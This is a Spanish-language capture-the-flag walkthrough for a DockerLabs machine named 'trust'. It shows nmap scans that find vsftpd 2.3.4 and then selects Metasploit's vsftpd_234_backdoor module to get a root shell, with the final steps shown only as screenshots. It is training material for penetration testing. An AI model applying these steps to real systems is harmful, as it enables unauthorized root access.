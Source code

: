 ![dockerLabs.png](assets/dockerLabs.png)

Desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

escaneamos todos los puertos :
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.40 seconds
```

Parece que solo hay un servicio ftp, vamos a hacerle un escaneo mas profundo a este servicio:
```bash
❯ nmap -p21 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds
```
POr el escaneo y las pruebas que hago manuales, no podemos entrar como anonymous, por lo unico que nos quedaría para este servicio es ver si la version **vsftpd 2.3.4** que tiene es vulnerable.

En mi caso usare metasploit, así que arrancamos el framework con msfconsole:


```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

y buscamos la version del servicio ftp:
```bash
[msf](Jobs:0 Agents:0) >> search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
```

parece que existe una vulnerabilidad que nos puede permitir ejecutar comandos a través de un backdoor del servicio, vamos a usarlo y configurarlo a ver si da resultado:

![msfcFrHack.png](assets/msfcFrHack.png)

y nos da una shell con root:

![rootFirst.png](assets/rootFirst.png)

Con esto ya hemos comprometido la maquina.